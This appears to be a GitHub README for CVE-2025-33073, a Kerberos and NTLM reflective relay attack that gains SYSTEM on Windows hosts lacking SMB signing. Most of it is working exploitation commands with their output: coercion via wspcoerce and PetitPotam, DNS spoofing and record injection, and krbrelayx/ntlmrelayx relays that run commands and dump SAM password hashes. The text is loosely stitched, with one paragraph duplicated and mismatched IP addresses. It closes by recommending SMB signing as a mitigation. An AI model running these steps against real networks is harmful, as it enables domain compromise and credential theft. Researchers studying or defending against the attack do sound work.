

## CVE-2025-33073

An authenticated remote command execution as SYSTEM on any machine which does not enforce SMB signing.

<p align="center">
  
</p>

Authentication Coercion: 

The attack begins with authentication coercion. This is a well-known technique that allows low-privileged accounts to connect a Windows host via DCERPC and coerce it to connect and authenticate to the attack system with its computer account. We have described the theory behind this technique as well as the currently available techniques in our previous blog post: The Ultimate Guide to Windows Coercion Techniques in 2025. It is very important to understand the limitations of the coercion techniques, because these limitation dictate which hosts end up being vulnerable for the Reflective Kerberos Relay Attack in practice.

Decoupling of Coercion Target and Service Principal Name: 

Coercing Kerberos authentication is not as easy as it sounds. If we coerce a connection to the attack system, Kerberos is only used when the attack system has its own Service Principle Name, and in this case, the ticket would be rejected if we relay it back. This is where the CredUnmarshalTargetInfo/CREDENTIAL_TARGET_INFORMATIONW trick comes into play, which was pioneered by James Forshaw from Google Project Zero. This allows us to register a hostname pointing to the attack system that causes Kerberos Tickets to be issued for an entirely different host. Using this technique, we are able to receive a Kerberos ticket intended for the same host it originated from.

Bypassing NTLM Prioritisation: 

Due to the aforementioned trick, Windows seems to think it is connecting to itself and in this case, NTLM is actually prioritised over Kerberos. Therefore, we needed to modify krbrelayx to advertise that it is not capable of NTLM at all to force Kerberos authentication. You can find the diff in our paper.

Methods:

```sh
wspcoerce 'lab.redteam/user1:KojbyRyibdinWom)@client1.lab.redteam' \
    file:////client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/path
```

```sh
sudo pretender -i eth1 --no-dhcp-dns --no-timestamps \
    --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*'
```

```sh
krbrelayx.py --target smb://client1.lab.redteam -c whoami
```

##

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

```sh
Help: -u <user> -p <password> -d <domain> <dc-ip> <target-ip>
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL 192.168.77.4 SERVER1.SHADOW.LOCAL
```

```sh
ntlmrelayx.py -t SHADOW.LOCAL -smb2support
```

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

##

```sh
dnstool.py -u 'SHADOW.LOCAL\tyr' -p loki 192.168.77.10 -a add -r server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.77.4
[-] Adding new record
[+] LDAP operation completed successfully
```

```sh
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SERVER1.SHADOW.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

```sh
ntlmrelayx.py -t SERVER1.SHADOW.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.77.12, attacking target smb://SERVER1.SHADOW.LOCAL
[*] Authenticating against smb://SERVER1.SHADOW.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.12
```

CVE-2025-33073 is a good example on why enabling defense-in-depth mitigations such as SMB signing can prove extremely efficient, even against 0-days.
